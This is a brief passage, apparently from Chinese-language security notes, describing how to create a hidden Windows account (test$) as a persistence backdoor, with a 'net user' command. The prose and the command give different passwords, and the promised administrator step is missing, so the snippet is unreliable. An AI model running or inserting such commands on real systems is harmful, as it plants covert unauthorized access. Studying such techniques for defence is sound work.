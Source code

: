   ![Alt text](../../cyber_security/images/image92.png)
  - 删除方法：和宿主文件一起删除

##### 隐藏账号
- Windows隐藏系统用户操作，CMD命令下，建立一个用户名为test$，密码为111qqq的简单隐藏账户，并且把该账户提升为管理员权限
```
net user test$ qwe123.. /add
```